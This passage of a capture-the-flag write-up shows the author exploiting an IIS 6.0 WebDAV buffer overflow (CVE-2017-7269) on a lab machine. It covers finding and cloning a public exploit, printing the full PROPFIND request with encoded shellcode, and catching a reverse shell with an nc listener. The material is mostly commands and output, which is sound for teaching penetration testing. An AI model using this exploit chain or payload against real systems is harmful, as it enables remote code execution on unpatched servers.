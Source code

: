 Copy the url and search on google or another browser you want

```bash
❯ searchsploit -m windows/remote/41738.py
  Exploit: Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/41738
     Path: /usr/share/exploitdb/exploits/windows/remote/41738.py
File Type: ASCII text, with very long lines
```

After copy the CVE and search in Github we're goint to use this exploit

- [https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

```bash
❯ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
Clonando en 'iis6-exploit-2017-CVE-2017-7269'...
remote: Enumerating objects: 6, done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 6
Recibiendo objetos: 100% (6/6), listo.
❯ ls
 iis6-exploit-2017-CVE-2017-7269   churrasco.exe
❯ cd iis6-exploit-2017-CVE-2017-7269
❯ ls
 iis6 reverse shell   README.md
❯ mv iis6\ reverse\ shell exploit.py
❯ ls
 exploit.py   README.md
```

Ok now the script is in python2 

```bash
❯ python2 exploit.py
usage:iis6webdav.py targetip targetport reverseip reverseport
```

We can sent a reverse shell 

```bash
❯ python2 exploit.py 10.10.10.14 80 10.10.14.21 443
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```
